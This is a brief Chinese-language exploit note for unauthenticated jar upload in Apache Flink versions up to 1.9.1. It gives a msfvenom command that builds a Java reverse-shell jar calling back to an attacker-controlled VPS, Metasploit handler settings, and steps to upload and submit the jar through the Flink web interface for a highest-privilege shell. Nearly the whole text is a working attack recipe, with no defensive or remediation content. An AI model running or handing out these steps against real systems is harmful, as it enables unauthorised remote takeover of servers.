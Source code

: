 # Apache-flink 未授权访问任意jar包上传反弹shell

影响版本： flink<=1.9.1


利用方法：  

msf开启监听
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=vpsip LPORT=6666 -f jar > flink.jar

use exploit/multi/handler
set payload java/shell/reverse_tcp
set LHOST vpsip 
set LPORT 6666
```

触发条件:  
```
访问ip:port/#/submit/submit  
Upload flink.jar之后，点击已上传jar包，submit即可反弹最高权限shell
```